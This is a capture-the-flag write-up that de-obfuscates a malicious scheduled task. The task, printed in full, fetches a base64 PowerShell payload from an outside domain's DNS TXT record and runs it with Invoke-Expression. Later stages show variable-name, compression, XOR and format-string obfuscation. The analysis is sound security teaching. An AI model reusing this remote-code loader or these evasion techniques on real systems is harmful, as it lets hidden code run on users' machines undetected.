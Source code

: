 
## Challenge Description

* Palimpsest <em>(hard)</em>

Author: Adam Rice (@adam.huntress)<br><br>Our IT department was setting up a new workstation and started encountering some strange errors while installing software. <br> The technician noticed a strange scheduled task and luckily backed it up and grabbed some log files before wiping the machine!  <br> Can you figure out what's going on? <br> <b>We've included the exported scheduled task and log files below.</b> <br>


## Solution

Palimpsest was the last challenge of the CTF and one of my favourites. It included four different tactics of obfuscating powershell - five if you include the random capitalisation designed to make it difficult to read.

We are given a scheduled task in xml and a set of Windows event logs. The first thing I did was convert the logs to CSV for ease of analysis and then I examined the scheduled task.

```xml

    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-ExecutionPolicy Bypass -Command "Invoke-Expression 
      ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String
      ((Resolve-DnsName 5aa456e4dbed10b.pyrchdata.com -Type txt |
       Select-Object -ExpandProperty Strings))))"</Arguments>
    </Exec>
```
This executes a small powershell script that resolves any txt records from 5aa456e4dbed10b.pyrchdata.com, decodes the value of a received string, and executes it dynamically. When we retrieve this string we get as we can expect a set of base64 encoded strings.

```
;; ANSWER SECTION:
5aa456e4dbed10b.pyrchdata.com. 300 IN	TXT	"LiggJFNIRWxsaURbMV0rJFNIRWxMaWRbMTNdKydYJykoIG5lVy1vQkpFQ1QgSW8uQ29tUHJlU3NJT04uZEVmbEFUZVN0UmVBbShbc3lTVGVtLklPLm1FTU9SWXNUUkVBTV1bc1lzdEVNLmNPbnZlUlRdOjpGUk9tQkFzRTY0c3RyaW5HKCAnWlZiTGF0eFFEUDBWTFZwbUp0d0o5MjE3bVQ1b0N5V0IwbDBJSmFWWkpKQVdzaWlCdHY5ZTZVaTY" "5clFMRzE5TDF1UG9TUEw1ZnYvdTd2UHg1KzNUL2NYWGoyOXBkL2I0N2Vsc2R6aS92SDI4dXk0aHBaQnZqZzlYOTk5M3U4TitmLzM2L2NYVDljME43U25sUkNIRmhRS2xPUE05eDlDbVFEWEtpOGl5M01MU1dTQlhUWHlGVkZpdFVoQ1ZOTEhHUktITVFiOHZtUzgrSkxaYnNnaGdIOC9RVEltZjJnTERLYk4yNjJ3bmk1Z042eHU1NER1TGkwSk" "RvY21uSkJwOG1xQ1FVb2U4U2NEWnpDYUpoRDMzaUpCY1lla2lSNjVOczViUVNHNTZTaERLUGNVSmVqV1lWTlhFQjdrVEpOZkx4Z1hCaDBValJ3M0Z2cHhENW5nVVh2RUFqSkZkbEJyQllaNFVQd2RUWEJDQ3cwR0JGWUdDQ1VlQ0tCbWtCTkFxeTVyR2xJRXJuWmpYYW51eFBFQXIwWDlHK2FFMnJWTkxva3NHL0ZxWVdkWElpZ0dIZUZFbDJ0W" "XBXQUc3Z3d3a1VxaHNRMHBOclVKUllSQmFaVWhBQnRiamNOaWtPT3d4aU5GV3lHdXBJdFI2STdFQ0JXRXFERGpZYklBNnFvSlRrdXp3RU1SY25pMW9NVmVNVDRKRlFaU0ZsSjZWOFpKQ21sL0xzeWgyakJyTHhVK2JrUy9MQmVVcXBHdU9ndHlVc095MUcweXdJeGxKMkxYb1M0RmRCSXdLQVpKNTFFamU4YXVHSWk0R3p4d1U4YVpJZ2lsS3Fp" "VU1Tam1QUktDOXIrMHFvcWlaVDI1RHFXQmRKTFZubEtwenpkcVdBQXBqMC9Nb0JRME9haHNyTjFzWTdhNHNhY29GV2psQ3ErTlVsUWNWTUhNbVBUdWpORCtsTlhraWk3VU5VbHh6WXJwTHNxb3B3RWsrR2c5SzB5VjhwV1FQUmdDcG92UGFjbVNHMW1tMGxWdFlhTXQvQWFrNFBaZDVUSVl5TzJOdFBuRVh6RFlZbmNoSUxnWXJPRWdvR0NJc2I" "zZi9PbXRHcVdtRmM5VCtCTGVyY3dtblBDdUpxRVRGanNtdXRiRjRyTktrRVBGVEtSNFUraklxOURVWkdSSUdId3NhSUtHZWJUc2dRbytrVFpDV3lkNlg0Z3lLN21aMmNGWk1TbFFxcW1BWmJGQVZrRGViUXZMb3BSZlhUQmNGVHZPS2p1L3FRU0pmRFZpTGpCVzI5c1JDb3c5QW1NM095alpyMXNsV2ZOb0NxOEY2blljTms1OUJvVEh4Wk9BMW" "xXS1FKeHZGUlpzdjZTekI4a25sTkFNWlJyb0RFRDhXd1VTMlNSZWRaU1FqWmNGTUl0dTdZMCtDY2pIL0M2d0Rvd0dmN0hiYUxuZmJtcHQyMGhucE84aHpHc3ZNb1NUL2V2WU5OaUk0eGJjdVRycStkdGJZTnJJbHZOdld3UUpRdGwyNGdzNTJpazFPQTkyMlRLZkQ3NWYwaS9CREpMOURMNzdROGRYejFhZGRmRzV2ZG9jL2REZysvUGh3eVg5T" "mZ3RT0nICkgLFtJby5jb01QUkVzc0lvbi5DT01QcmVTU2lPTk1vREVdOjpkRWNvbXBSRVNzKXwgZm9yRWFjSC1vYkpFQ1Qge25lVy1vQkpFQ1Qgc3lzVEVtLklPLlNUUkVBTVJFYURlUiggJF8gLCBbVEV4VC5lbmNvRGlOR106OmFzQ2lpICkgfXwgZm9yZUFDSC1PQmpFQ1QgeyRfLlJFQWRUb0VuZCgpIH0gKQ=="

```
When decoded, we get our next powershell payload:

```posh

.( $SHElliD[1]+$SHElLid[13]+'X')( neW-oBJECT Io.ComPreSsION.dEflATeStReAm(
[sySTem.IO.mEMORYsTREAM][sYstEM.cOnveRT]::FROmBAsE64strinG(
 'ZVbLatxQDP0VLVpmJtwJ9217mT5oCyWB0l0IJaVZJJAWsi
 
-- miles and miles of base64 --

bcuTrq+dtbYNrIlvNvWwQJQtl24gs52ik1OA922TKfD75f0i/BDJL9
dDg+/PhwyX9NfwE='
) ,[Io.coMPREssIon.COMPreSSiONMoDE]::dEcompRESs)| forEacH-obJECT 
{neW-oBJECT sysTEm.IO.STREAMREaDeR( $_ , [TExT.encoDiNG]::asCii ) }|
foreACH-OBjECT {$_.REAdToEnd() } )

```
This obfuscates 'IEX' using our first tactic, building commands from built-in system variable names. This is shorthand for 'Invoke-Expression', telling the shell to execute the next section dynamically.

There's a block of zlib compressed base64 data which when we convert gives us our second payload and a new obfuscation tactic. 

```posh
.((GeT-variAbLE '*mdr*').Name[3,11,2]-jOin'')
(([CHAr[]] ( 121 ,109 , 108 , 20,57, 40, 100 ,125,96 , 6 , 41, 4,13, 24 ,0, 117,127 ,
, 112,59,125,122,49 , 50, 46 ,122 , 113 , 122 ,56,122 , 116, 113 ,122 ,30,122 , 116 ,

-- miles and miles of charcode --

115,20 , 51, 43, 50, 54 ,56 ,117 ,116 
)|% { [CHAr] ( $_ -BxOR'0x5D')} )-joIN'')
```

First, we have another 'IEX' built out of variable names. Then comes an array of ascii charcode with a little twist - each character is xor with `0x5d`. Reversing the xor and then converting the charcode to ascii gives the next stage of the script.

```posh
$01Idu9 =[tYPE]("{1}{2}{0}"-f 'e','io','.fiL') ; 
${a} = 40000..65000; ${b} =  $01Idu9::(
"{1}{0}{2}" -f 'ri',("{1}{0}" -f'penW','O'),'te').Invoke(
(Join-Path -Path ${EnV:a`P`p`DAta} -ChildPath flag.mp4)); 
Get-EventLog -LogName ("{0}{2}{1}{3}" -f 'Ap','licati','p','on') 
-Source ("{0}{2}{1}"-f'mslnstal','er','l') | ? 
{ ${A} -contains ${_}."In`st`AnCe`iD" } | Sort-Object Index | % 
{ ${C} = ${_}."d`ATa"; ${b}.("{1}{0}"-f 'ite','Wr').Invoke(
${C}, 0, ${C}."LeN`GTh") }; ${b}.("{1}{0}" -f ("{0}{1}" -f 'los','e'),'C').Invoke()
```
Here is our final form of obfuscation. The '-f' operator formats strings and in this case will reassemble the commands based on the order of the string template, defined as the numbers within the curly braces. For example, `("{1}{2}{0}"-f 'e','io','.fiL')` would become `io.fiLe`. We are nearly there.

```posh
$01Idu9 =[tYPE]io.fiLe ;
${a} = 40000..65000; ${b} =  $01Idu9::OpenWrite.Invoke(
(Join-Path -Path ${EnV:aPpDAta} -ChildPath flag.mp4)); 
Get-EventLog -LogName Application -Source mslnstaller | ? {
${A} -contains ${_}."InstAnCeiD" } | Sort-Object Index | % {
${C} = ${_}."d`ATa"; ${b}.Write.Invoke(${C}, 0, ${C}."LeNGTh") };
${b}.Close.Invoke()
```
Even before the reordering, it is not too difficult to see what is happening here. A file called flag.mp4 is being written in sections to the Application log between event id 40000 to 65000. To extract it I opened up the CSV file for the converted Application log, ensured the events were ordered ascending by date, and copied the relevant column out to a text file. I could see `0000 0020 6674 7970 6973 6f6d 0000 0200` in the first entry which matched the Wikipedia entry for the magic bytes of an ISO Base Media File (MPEG-4). I then converted this hex to a binary file with a tiny tiny python snippet and was rewarded with what looked like a valid mp4 file.

```python

with open("hex_data.txt", "r") as hex_file:
    hex_data = hex_file.read().replace("\n", "").replace(" ", "")  

binary_data = bytes.fromhex(hex_data)

with open("output", "wb") as bin_file:
    bin_file.write(binary_data)
```
```bash
anachronos: unit0xbcd$ file output
output: ISO Media, MP4 Base Media v1 [ISO 14496-12:2003]   
```
Opening the video in VLC then gave us our flag.

![screenshot](palim01.png)



